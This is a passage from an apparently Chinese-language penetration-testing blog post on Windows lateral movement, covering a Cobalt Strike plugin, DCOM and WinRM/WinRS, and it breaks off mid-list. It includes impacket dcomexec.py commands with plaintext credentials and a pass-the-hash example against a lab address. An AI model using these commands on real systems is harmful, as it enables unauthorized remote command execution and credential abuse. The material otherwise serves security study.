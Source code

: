   
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU70QSZHtwVTP3uTEoNbjETIR4VRo2JSKPd9SW37dEzU4blUBqSIjkQWA/640?wx_fmt=png&from=appmsg "")  
  
  
以下展示hash的连接：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7EWKwfVtbj5g5G1tAWUWNzyW1VX95ZRctYWdbQSbF0yvUvBFRYvATZQ/640?wx_fmt=png&from=appmsg "")  
  
##### 利用4 cs插件  
  
  
wmihacker==cscript  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Eb9Mkjmo6uIIuuNwVOEbQoPJfV1uAd1TqETyvEfDmIuk6duxTRMD3A/640?wx_fmt=png&from=appmsg "")  
  
#### DCOM  
  
  
参考文章：  
[https://mp.weixin.qq.com/s/9u0kprGbaU1S1BEQWj18AA](https://mp.weixin.qq.com/s?__biz=MzkxMTIyMjg0NQ==&mid=2247489792&idx=1&sn=a5ba452968fdd99d79975f67d02c464c&scene=21#wechat_redirect)  
  
  
  
Distributed Component Object Model（分布式组件对象模型），是微软的一系列概念和程序接口。它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。  
  
  
利用条件：  
  
1. 适用目标Win7系统以上，win7、win2008及其以上才有powershell，而这个DCOM的横向移动与powershell是密不可分的。  
1. 管理员权限 Powershell  
1. 远程主机防火墙未阻止  
##### dcomexec-impacket  
  
```
python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32
python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32 whoami
python dcomexec.py sqlserver/administrator:@192.168.3.32 whoami -hashes :518b98ad4178a53695dc997aa02d455c
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7dcPJxCZfEW6W1icd9qt694vPicNEbpcwy7IqKib0wEjGhUI4ibaSJoLLZg/640?wx_fmt=png&from=appmsg "")  
  
  
一直卡在这个界面了，感觉是环境问题。。  
  
#### WinRM&WinRS  
  
  
WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务  
  
  
WinRS（remote shell）是内置的命令行工具，用于远程连接运行WinRM的服务器并执行大多数cmd命令  
  
  
利用条件：  
  
1. win2012之前利用需要手动开启WinRM，之后是默认开启的。  
1. 防火墙对5986、5985端口开放  
1.探针可用：  
  